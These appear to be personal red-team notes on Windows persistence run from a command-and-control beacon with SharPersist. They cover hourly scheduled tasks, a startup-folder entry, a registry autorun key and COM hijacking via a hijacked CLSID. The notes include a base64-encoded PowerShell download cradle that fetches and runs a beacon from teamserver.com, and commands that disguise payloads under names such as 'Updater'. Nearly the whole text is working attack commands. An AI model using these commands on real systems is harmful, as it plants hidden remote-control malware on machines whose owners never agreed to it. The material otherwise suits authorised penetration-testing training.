# Hoste Persistence Notes

**Task Scheduler**
Creating a scheduled task that will execute a PowerShell payload once every hour

1. Create an IEX cradle that's base64 encoded, /a is our hosted beacon
   ```
   Windows:
   $str = 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
   Linux:
   set str 'IEX ((new-object net.webclient).downloadstring("http://teamserver.com/a"))'
   echo -en $str | iconv -t UTF-16LE | base64 -w 0
   ```
2. Execute it on the beacon for persistence
   ```
   execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -n "Updater" -m add -o hourly
   ```
    -t is the desired persistence technique.
    -c is the command to execute.
    -a are any arguments for that command.
    -n is the name of the task.
    -m is to add the task (you can also remove, check and list).
    -o is the task frequency.

**StartUp Folder**
Things that start automatically when a user first logs in
```
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc <base64 blob>" -f "UserEnvSetup" -m add
```
-f is the filename to save as

**Registry Autorun**
AutoRun values in HKCU and HKLM allow applications to start on boot. 

steps in beacon
```
cd C:\ProgramData
upload C:\Payloads\http_x64.exe
mv http_x64.exe updater.exe
execute-assembly C:\Tools\SharPersist\SharPersist\bin\Release\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add
```
-k is the registry key to modify.
-v is the name of the registry key to create.

**Hunting for COM Hijacks**
Easier to hunt for hijacks on our own machine first. Launch procmon64.exe from [sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite)

We want to filter for
1. RegOpenKey operations
2. where the Result is NAME NOT FOUND
3. and Path ends with InprocServer32

Be important to find a CLSID that isn't loaded often
Example CLSID that we found: HKCU\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32

Checking that it exists in HKLM but not in HKCU
```
Get-Item -Path "HKLM:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
Get-Item -Path "HKCU:\Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32"
```
Now create a registry entry that points HKCU to a Beacon DLL
```
New-Item -Path "HKCU:Software\Classes\CLSID" -Name "{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}"
New-Item -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}" -Name "InprocServer32" -Value "C:\Payloads\http_x64.dll"
New-ItemProperty -Path "HKCU:Software\Classes\CLSID\{AB8902B4-09CA-4bb6-B78D-A8F59079A8D5}\InprocServer32" -Name "ThreadingModel" -Value "Both"
```
